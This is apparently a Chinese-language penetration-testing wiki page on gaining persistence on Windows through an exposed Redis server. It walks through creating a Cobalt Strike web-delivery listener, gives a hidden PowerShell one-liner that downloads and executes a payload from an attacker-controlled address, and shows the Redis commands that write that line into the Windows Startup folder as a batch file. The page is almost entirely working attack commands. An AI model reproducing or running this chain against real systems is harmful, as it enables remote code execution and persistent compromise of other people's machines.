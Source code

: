 ### 启动项

攻击方法与写入Linux启动项相似

<a-checkbox checked>需要高权限账户</a-checkbox></br>

<a-checkbox checked>Windows 启动项目录为:</a-checkbox></br>

<a-checkbox checked>C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/</a-checkbox></br>

<a-checkbox checked>C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp</a-checkbox></br>



首先创建 CobaltStrike监听

<a-checkbox checked>`Attacks -> Web Drive-By -> Script Web Delivery`</a-checkbox></br>

![img](../../../.vuepress/public/img/1628610432546-2e313488-1ab1-42f2-bf37-fb074693c30a-20220415151326919.png)

生成 Powershell 语句

```php
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))"
```

 执行Redis命令写入语句

```php
192.168.0.123:6379> config set dir "C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/"
OK
192.168.0.123:6379> config set dbfilename cmd.bat
OK
192.168.0.123:6379> set x "\r\n\r\npowershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))\"\r\n\r\n"
OK
192.168.0.123:6379> save
OK
```
